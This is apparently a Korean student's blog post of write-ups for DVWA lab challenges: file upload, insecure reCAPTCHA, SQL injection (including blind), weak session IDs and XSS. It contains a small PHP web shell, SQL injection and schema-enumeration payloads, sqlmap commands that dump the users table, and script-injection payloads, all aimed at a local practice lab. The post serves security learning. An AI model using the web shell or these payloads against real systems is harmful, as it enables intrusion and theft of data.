

##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----
드디어 5/20 서울 자취방에 입성했다.  
진짜 하루 종일 입주 청소를 하고 뻗어버렸다.  
아직 정리할게 산더미이지만 공부는 해야지;

# > DVWA: File upload


## 삽질

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?> 
```
이전에는 들어보기만 했던 "파일 업로드 취약점"을 풀어볼 기회가 생겼다. 이전과는 다르게 php 코드를 무서워하지 않기 때문에 업로드 하려는 함수가 익숙하게 느껴진다. 내가 만들 때에도 위 코드처럼 `move_uploaded_file` 함수를 썼었는데 여기에서는 `uploaded`가 속성이름으로 설정되어 있는 듯하다. 그러나 내 기억으로는 업로드에 성공할 경우에 1을 반환하는 것으로 알고 있다. 문제에서는 업로드에 실패할 경우에 성공적으로 업로드 되었다고 하는 것을 보니 주어진 `~/hackable/uploads` 경로가 아닌 다른 곳에 업로드하라는 것 같다.

아마도 이전 디렉토리를 의미하는 `../` 기호를 활용하면 되지 않을까? 라고 생각하여 일반적인 업로드와 내가 생각한 업로드 방식을 실험해보기로 했다. 일반적인 이미지를 업로드할 경우에 다음과 같다.


그래서 코드에 따라 업로드가 불가능하다고 판단되어 파일 이름에 경로 기호를 삽입하려고 하였다. 하지만 미처 파일 이름이 `.` 기호와 `/` 기호가 포함되도록 만드는 방법을 알지 못했다. 그래서 burp suite 를 이용해 인자 전달 시에 파일 명을 바꿔 보기로 했다. 


근데 그래도 안됐다. 무언가 잘못됨을 느끼고 php 오류를 출력하게끔 하였더니


권한이 없다고 한다. 아마도 bitnami를 구축할 때 설정된 폴더 권한 때문에 그런 것 같다.

<br>


확인해보니 upload 폴더의 권한이 666이였고 내가 업로드 기능을 구현할 때 업로드 폴더에 주었던 권한 777을 부여했다. 내가 알기로는 실행 권한인 `x`가 폴더에 없을 경우 해당 폴더에 접근이 불가능한 것으로 알고 있는데, 이게 왜 이렇게 되어있었는지 잘 모르겠다. 일단 777 권한을 부여한 이후에는 php 오류 구문 없이 파일이 업로드 가능했다.


<br><br>

~~이 문제를 해결하고 나니 코드 부분이 이해가 가지 않았다. 인터넷을 찾아보니 `move_uploaded_file`은 성공할 경우 true를 반환하는 것으로 나와있다. 그러나 위 코드에서 반환이 false일 경우에 업로드 문구가 뜨도록 되어있는데... 뭘까...~~

사람이 피곤하면 헛소리를 하는 듯하다. 실패하면 false 거기에 `!` 되면 true 그래서 No.

<br><br>

## Write up

사소한 업로드 이슈를 해결한 뒤 접근한 방식은 다음과 같다.

1. 문제에서 업로드에 성공할 경우에 업로드 된 경로를 알려준다.
2. 알려진 경로에 대한 접근이 가능하다.


때문에 system("ls") 와 같은 코드를 실행한다면 되겠다.

```php
<?php
system("ls");
?>
```

이 코드를 삽입하여 올려도 좋겠지만 더 다양한 커맨드를 위해 아래 코드를 업로드 했다.

```php
<?php
$cmd = $_GET['c'];
system($cmd);
?>
```

그리고 언제든지 해당 경로에서 c를 통해 커맨드를 전달하면 수행가능해졌다.


<br><br>

이 라업을 쓰다가 위 웹쉘 코드 때문에 V3랑 싸웠다. 후.


<br><br><br>

-----

# > DVWA: Insecure recaptcha

일단 이 문제를 풀기 위한 기본적인 세팅으로 DVWA에 reCAPTCHA를 설정 해주어야 한다. 구글 로그인 이후 설정이 가능하며 공개키와 비밀키를 발급 받을 수 있다. 이후 DVWA의 `config.inc.php`에서 추가해주면 된다. 아 도메인은 `localhost`로 하였다.


캡쳐가 짤렸지만 해당 부분 아래에 2개의 키를 발급받는다.

```
$ sudo vi /opt/lampstack-8.1.4-0/apache2/htdocs/DVWA/config/config.inc.php
```
이번 과제는 bitnami와 함께하기에 다른 사람들과 설정 위치가 다르다. 사서 고생 중이다.

<div class="code-example">
# ReCAPTCHA settings<br>
#   Used for the 'Insecure CAPTCHA' module<br>
#   You'll need to generate your own keys at: https://www.google.com/recaptcha/admin<br>
$_DVWA[ 'recaptcha_public_key' ]  = '여기에 공개키';<br>
$_DVWA[ 'recaptcha_private_key' ] = '여기에 비밀키';<br>
</div>

해당 작업 이후에 확인해보면 이제야 풀 수 있겠다.


<br><br>

## 삽질

```php
<?php

if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '1' ) ) {
    // Hide the CAPTCHA form
    $hide_form = true;

    // Get input
    $pass_new  = $_POST[ 'password_new' ];
    $pass_conf = $_POST[ 'password_conf' ];

    // Check CAPTCHA from 3rd party
    $resp = recaptcha_check_answer(
        $_DVWA[ 'recaptcha_private_key'],
        $_POST['g-recaptcha-response']
    );

    // Did the CAPTCHA fail?
    if( !$resp ) {
        // What happens when the CAPTCHA was entered incorrectly
        $html     .= "<pre><br />The CAPTCHA was incorrect. Please try again.</pre>";
        $hide_form = false;
        return;
    }
    else {
        // CAPTCHA was correct. Do both new passwords match?
        if( $pass_new == $pass_conf ) {
            // Show next stage for the user
            echo "
                <pre><br />You passed the CAPTCHA! Click the button to confirm your changes.<br /></pre>
                <form action=\"#\" method=\"POST\">
                    <input type=\"hidden\" name=\"step\" value=\"2\" />
                    <input type=\"hidden\" name=\"password_new\" value=\"{$pass_new}\" />
                    <input type=\"hidden\" name=\"password_conf\" value=\"{$pass_conf}\" />
                    <input type=\"submit\" name=\"Change\" value=\"Change\" />
                </form>";
        }
        else {
            // Both new passwords do not match.
            $html     .= "<pre>Both passwords must match.</pre>";
            $hide_form = false;
        }
    }
}

if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '2' ) ) {
    // Hide the CAPTCHA form
    $hide_form = true;

    // Get input
    $pass_new  = $_POST[ 'password_new' ];
    $pass_conf = $_POST[ 'password_conf' ];

    // Check to see if both password match
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the end user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with the passwords matching
        echo "<pre>Passwords did not match.</pre>";
        $hide_form = false;
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```

사실 문제 이름 자체가 생소하기에 일단 무엇이든지 시도 해보기로 했다.
가장 의심한 코드는 이 부분이다.

```php
$resp = recaptcha_check_answer(
    $_DVWA[ 'recaptcha_private_key'],
    $_POST['g-recaptcha-response']
);
```
reCAPTCAH의 응답을 POST 값으로 넘겨받는다. 통과하지 않아도 조작한다면...?  
먼저 reCAPTCHA를 하고 넘어갔을 때이다.


step 1이라는 인자와 reCAPTCHA의 응답 값이 존재하고 이를 전달한다. 그리고 나서 아래 페이지로 이동한 다음에


다시 change 버튼을 누르면 step 2 인자가 포함된 패킷 송신을 볼 수가 있었는데 최종적으로 해당 통신이 비밀번호를 변경하는 듯하다. 그리고 가설에 따른 시도이다.


이렇게 전달되려는 패킷에 1이라는 값을 한번 넣어보았다.


응 안된다. 되겠냐고.

<br><br>

## Write up

문제에서 reCAPTCHA를 이용한 통신은 다음과 같은 과정을 거친다.

1. reCAPTCHA를 진행하여 step1 패킷을 보내는데 이 때 난수를 이용해 참/거짓을 판별한다.
2. 성실하게 통과했을 경우 step2 패킷을 보낼 수 있게 되며 비밀번호가 변경된다.

이 때 step2에서 비밀번호의 정보도 함께 넘어가는 것을 포착할 수 있는데 해당 패킷의 비밀번호만 수정하여 재요청 해보자. 동일한 요청에 대한 검증과 유효 검사가 없기에 전달 가능하다.

reCAPTCHA 통과 이후에 전달했던 패킷을 붙잡아 두고 "Send to Repeater"를 이용해 다시 전달해보자.


burp suite에서 패킷의 내용을 수정했고, 'aaaa'로 변경하였던 요청을 '1234'로 변경하는 요청으로 다시 전달했다.


위 요청/응답으로 비밀번호가 '1234'로 바뀐 것을 확인할 수 있다.

<br><br><br>

-----

# > DVWA: SQL injection

초보자라서 그런지 친숙하게 느껴지는 취약점이다.


이 문제는 보자마자 일단 이렇게 보고 시작했다.

<br>

## 삽질

```php
// Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Get results
            while( $row = mysqli_fetch_assoc( $result ) ) {
                // Get values
                $first = $row["first_name"];
                $last  = $row["last_name"];

                // Feedback for end user
                echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            } 
```

제일 중요하다고 생각하는 부분의 코드이다. 마치 취약한 내 홈페이지와 같이 사용자의 입력을 쿼리에 반영한다. 때문에 적절한 sql문을 사용하여 원하는 값을 얻어내면 될 것 같다. 하지만 로그인을 정보 이외에 긁어다 본적은 없기에 DB 구축 당시에 root 비밀번호를 설정하였던 것을 떠올려보기로 했다.

mariaDB는 root 비밀번호를 설정할 때에 `mysql` 이라는 데이터베이스에 접속하여 아래와 같이 정보를 설정하고 확인했다.


이런 정보를 가져와야 하나 했는데 인터넷에는 관련한 정보가 없다 ㅎㅎ;;  
사실 `' or 1=1 #` 말고는 솔직히 모르기에 찾아보았다.

<br><br>

## Write up1 (UNION)

sql의 `UNION` 명령어는 앞 구문과 뒤 구문을 결합하는 기능이 있다. 이 때 두 구문의 중복되는 구문을 제거하는 것이 `UNION DISTINCT`, 중복을 포함하여 결과를 가져오는 것이 `UNION ALL`이다. 일반적으로 사용하는 `UNION`은 `UNION DISTINCT`의 기능을 가진다.

또한 결합되어 사용되어 지는 쿼리에 컬럼 갯수가 동일해야 한다.
{: .text-red-000}

아래는 올바르지 않은 예시이다.


혹여 헷갈릴까 적지만 다른 테이블에서 컬럼 갯수만 똑같으면 결과가 나온다.  
아래는 올바르게 사용할 경우이다.


앞의 `userinfo`라는 테이블의 컬럼은 7개이고, 뒷 구문은 7개의 컬럼을 가진 테이블을 출력하는 구문이다. 따라서 동일한 컬럼 갯수이기에 앞 구문의 결과와 함께 아래 사진처럼 1이 7개 출력된다.


이를 응용하여 `or` 구문이 아닌 위 방법으로도 컬럼의 갯수를 유추하여 결과를 얻을 수 있다.



만약 `' UNION SELECT 1#`을 보낼 경우 앞 전송된 쿼리의 컬럼 갯수가 다르기 때문에 위와 같이 결과가 나오지 않을 것이다. 하지만 두 개의 컬럼으로 맞추어 주면서 얻어낼 수 있다.

<br>

## Write up2 (ORDER BY)

`ORDER BY` 절은 정렬을 수행하는데 그 기준은 정하기 나름이다. `DESC` 또는 `ASC` 를 통해 내림차순, 오름차순으로 정렬할 수도 있고 특정 컬럼을 기준으로 정렬을 할 수도 있다. 이 때 숫자를 넣을 경우 각 컬럼의 오름차순을 기준으로 정렬하는데 숫자가 커질수록 컬럼의 인덱스 1 번부터 입력된 숫자의 인덱스까지 정렬된다. 

즉, 3개의 컬럼이 존재할 때 `ORDER BY 2`를 사용할 경우에 2번째 컬럼까지 각각 오름차순되며, `ORDER BY 3`을 사용하면 모든 컬럼이 각각 오름차순 된다. 이 때 숫자가 컬럼의 갯수보다 많을 경우 오류가 발생하는데 이것을 이용하여 컬럼의 갯수를 추정할 수 있다.


위와 같이 2 또는 2보다 작은 수를 넣을 경우에 어떠한 결과든 출력이 가능하지만 그 이상의 수를 넣을 경우에는 어떠한 결과도 출력되지 않는다. 이를 통해 컬럼의 갯수가 2개임을 알 수 있다.

<br>

## Write up3 (스키마)

DB 최초 구축 시에 존재하는 DATABASES를 출력해보면 아래와 같다


스키마라는 것이 존재하는데 축약하여 표현하면 데이터베이스의 구조와 제약 조건에 관해 전반적인 명세를 기술한 것을 말한다.

풀어서 설명하자면 DB와 같이 데이터의 종류가 많아질 경우에 해당 종류를 목록화 할 필요가 있다. 그리하여 생겨난 것이 "메타 데이터(metadata)"이다. DB에는 여러 데이터 정보를 묶어 메타 데이터를 만들고, 이 메타 데이터들을 종류 별로 묶어 테이블을 만들었다. 그리고 그러한 테이블들이 모인 것이 곧 스키마 데이터베이스가 되겠다. 사용자가 만들어둔 데이터베이스부터 사용자 접근 권한 등 민감한 정보가 모두 들어있다.

그럼 기본적인 개념을 익혔으니 공격자의 입장에서 얻고 싶은 정보들은 어디에 있는지 알아보자.

먼저 DB서버에 존재하는 데이터 베이스 목록을 보고 싶을 경우이다.


`SELECT schema_name FROM schemata;` 로 `SHOW databases;`의 결과를 얻었다.

다음은 `show tables;`를 수행하기 위해 사용한 구문의 결과이다.


`SELECT table_schema, table_name FROM tables WHERE table_schema = 'my_web';` 구문 이였다.

그럼 테이블을 알았으니 이젠 컬럼을 알아내 볼 차례이다.


`SELECT column_name FROM columns WHERE table_name = "userinfo";` 로 `desc userinfo`를 대체했다.

컬렴명까지 알았냈다면 내가 데이터베이스를 구축한 사람이 아닐지라도 `SELECT`문을 이용해 충분히 데이터를 얻어낼 수 있게 된다. 사용할 수 있는 쿼리를 정리해보면 다음과 같다.

```sql
SELECT schema_name FROM information_schema.schemata;
=> 존재하는 데이터베이스 목록 확인하기
SELECT database();
=> 현재 사용하는 데이터베이스 정보 확인하기

SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema = '';
=> 특정 데이터베이스의 테이블 확인하기
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema' AND table_schema != 'performance_schema' AND table_schema != 'sys';
=> 존재하는 테이블의 컬럼 출력하기(기본 데이터베이스 제외)

SELECT column_name FROM information_schema.columns WHERE table_name = '';
=> 특정 테이블의 컬럼 확인하기
```

<br>

위 정보들을 응용하여 풀어보면 다음과 같다.
1. `SELECT database();` 로 현재 데이터 베이스 확인하기
2. `SELECT table_schema, table_name FROM information_schema.tables WEHERE table_schema`를 이용해 테이블 목록 확인하기
3. `SELECT column_name FROM information_schema.columns WHERE table_name = '';` 로 컬럼명 확인하기
4. 컬럼명을 기반으로 `SELECT` 문 활용하여 정보들 얻어내기

아래는 실습 결과이다.


1. 

2. 

3. 

4. 

<br>
<br>
<br>

-----

# > DVWA: SQL injection (blind)

일단 초보자라면 `' or 1=1 #` 넣어보는 게 국 룰.


<br>

## 삽질

```php
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; 
...
	if ($exists) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    } else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }
```

앞선 sql injection처럼 사용자의 입력이 쿼리에 포함이 되지만 쿼리 결과에 대해서 그대로 출력해주지 않는 모습이다. 아마도 쿼리의 결과가 참인지 거짓인지 판별해가며 추정해 가는 것 같다.

확실히 이전처럼 쿼리 결과를 볼 수 없기에 `SELECT database();` 와 같은 구문을 보내더라도 이름을 알 수 없을 것이다. 그렇기에 대안으로 생각해볼 수 있는 것은 brute force 문제를 풀 때처럼 한 글자 한 글자 유추해 가는 방식이 떠오른다. 아마도 substr() 과 같은 함수를 이용해야겠지...?

<br>

## Write up

일일이 하기에는 시간이 너무 오래 걸릴 것 같아서 코드를 짜서 풀려고 한다.  
이 부분은 내일 완전히 집중해서 만들어 보아야겠다.  
~~절대 "범죄도시2" 가 보고 싶어서는 아니다.~~

직접 코드를 짜려던 순간에 이전에 찜해두었던 [sqlmap](https://jminis.github.io/docs/P4C/Day25/#-%ED%95%9C%EB%B2%88-%EC%95%8C%EC%95%84%EB%B3%B4%EC%95%98%EC%8A%B5%EB%8B%88%EB%8B%A4)이 생각났다. 한번 해보려고 한다.

```shell
sudo apt install sqlmap
```

설치는 아주 simple하다.

<br>

| 옵션                | 설명                                                         |
| ------------------- | ------------------------------------------------------------ |
| -u [URL]            | DB 정보가 존재하는 웹 페이지의 URL 정보                      |
| --cookie            | HTTP 통신 시 사용되는 쿠키 헤더 값 (로그인해서 풀어야 하는 문제일 경우) |
| -p [파라미터값]     | 전달하는 인자명 (ex. id,pw ...)                              |
| --current-db        | 현재 데이터베이스 출력                                       |
| --dbs               | 데이터베이스 목록 찾기                                       |
| --tables            | 테이블 목록 찾기                                             |
| --columns           | 컬럼 목록 찾기                                               |
| -D [데이터베이스명] | 특정 데이터 베이스 대상 탐색                                 |
| -T [테이블명]       | 특정 테이블 대상 탐색                                        |
| -C [컬럼명]         | 특정 컬럼 대상 탐색                                          |
| --dump              | 덤프를                                                       |

<br>

가장 기본적인 sqlmap 구문을 사용해보자

```bash
sqlmap -u "http://192.168.3.128/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=mgf249ms3gbccu03eppvk3vuic; security=low"
```


y 만 눌러주면 자기 혼자 다 해버리더니 취약한 부분을 탐색해주었다

```
minishell@ubuntu:~/.sqlmap/output/192.168.3.128$ cat log
sqlmap identified the following injection point(s) with a total of 3426 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 5411=5411 AND 'ixmN'='ixmN&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
Payload: id=1' AND (SELECT 9281 FROM(SELECT COUNT(*),CONCAT(0x7178707a71,(SELECT (ELT(9281=9281,1))),0x71716a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'IHMZ'='IHMZ&Submit=Submit
    
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 4101 FROM (SELECT(SLEEP(5)))pSGC) AND 'fmpx'='fmpx&Submit=Submit
---
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```

앞서 sql 문제를 풀듯이 단계별로 알아나가보자.
1.데이터베이스의 이름 확인하기

```bash
sqlmap -u "http://192.168.3.128/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=mgf249ms3gbccu03eppvk3vuic; security=low" --current-db
```


<br>

2.테이블의 이름 확인하기
```bash
sqlmap -u "http://192.168.3.128/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=mgf249ms3gbccu03eppvk3vuic; security=low" -D dvwa --tables
```


<br>

3.컬럼 정보 확인하기

```bash
sqlmap -u "http://192.168.3.128/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=mgf249ms3gbccu03eppvk3vuic; security=low" -D dvwa -T users --dump
```


명령어 3줄로 크랙이 완료되었다. 정말 어마어마한 툴 인 듯하다.  
해당 과정 중에서 4 개의 질의가 있었는데 가장 빨리 끝날 수 있도록 기초적인 설정만 했다.


<br><br><br>

-----

# > DVWA: Weak SESSION IDs


php로 세션 인증을 만들던 당시 `session_start()`를 이용해 세션 값을 생성하고 로그인이 되었는지 확인할 때 세션 값의 존재 유무를 확인하던 때가 기억이 난다. 그게 벌써 3주전이라니 ...

## 삽질


문제의 Generate 버튼을 누르면 아래 개발자 도구에서 확인할 수 있는 쿠키의 값이 변경된다.

```php
<?php

$html = "";

if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if (!isset ($_SESSION['last_session_id'])) {
        $_SESSION['last_session_id'] = 0;
    }
    $_SESSION['last_session_id']++;
    $cookie_value = $_SESSION['last_session_id'];
    setcookie("dvwaSession", $cookie_value);
}
?> 
```

코드도 심플하게 나와있었는데 세션의 값이 1씩 증가하면서 `setcookie` 함수를 사용해 사용자의 쿠키 값도 증가 시키고 있었던 것이다. 내가 쿠키의 값을 바꾸더라도 서버에 기록되는 세션의 값을 어떻게 마음대로 할 수 있을까?

일단 무지성으로 통신 내역을 보았다.


세션 아이디로 추정되는 `PHPSESSID`가 전달되는 것이 보이는데 이를 수정해보았다.  
음.. 로그인이 끊겼다 ㅋㅋㅋㅋㅋㅋㅋ 이게 아닌가보다.

다시 로그인해서 시도하다 보니 2번째 이상부터 Generate 버튼을 눌렀을 때 dvwaSession 값이 전달되는 것을 볼 수 있었다. 


이 패킷의 응답 결과는 4가 되겠지?

## Write up

쿠키 값을 사용자가 유추할 수 있다 -> 다른 사용자가 해당 쿠키 값을 가진 사용자의 권한을 사용할 수 있다.

사실 잘 몰라서 라업을 봤는데 이게 끝이였다! 사실 유추가 되면 XSS도 필요없겠지?

<br><br><br>

-----

# > DVWA: DOM Based XSS

DOM이 HTTP 통신과 관련 있다는 사실 정도만...


<br>

## 삽질

문제 이름을 보니 개발자 도구로 소스코드를 봐야 할 것 같아 확인했다

```javascript

if (document.location.href.indexOf("default=") >= 0) {
	var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
	document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
	document.write("<option value='' disabled='disabled'>----</option>");
}
document.write("<option value='English'>English</option>");
document.write("<option value='French'>French</option>");
document.write("<option value='Spanish'>Spanish</option>");
document.write("<option value='German'>German</option>");
				
```

미국을 선택하면 아래 그림처럼 URL과 option 속성이 달라지더니 위 코드 때문이였다,


<br>

## Write up

그냥 저 URL에 스크립트문을 박았다.


`document.cookie();` 와 같이 쓰면 세션값도 얻겠지?

<br><br><br>

-----

# > DVWA: Reflected XSS


`' or 1=1#` 아니면 `<script>alert("1");</script>`를 넣어보는게 기본 소양이라고 배웠다.  
알려준 사람은 없다.

<br>

## 삽질

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?> 
```

php 에서 자바스크립트를 사용할 때 echo를 이용하여 사용한 기억이 있다. 그런데 떡하니 echo에 내가 입력한 값을 인자로 전달하니 `script` 태그를 이용하지 않을 이유가 없다.


<br>

## Write up


1 대신 `document.cookie()` 를 사용하면 의미있다는 것을 알고 있지만 이것을 더 의미 있게 공격자에게 보내는 방법을 알아야 한다.  
다음 XSS 문제를 풀 때 병행하여 풀 예정이다.

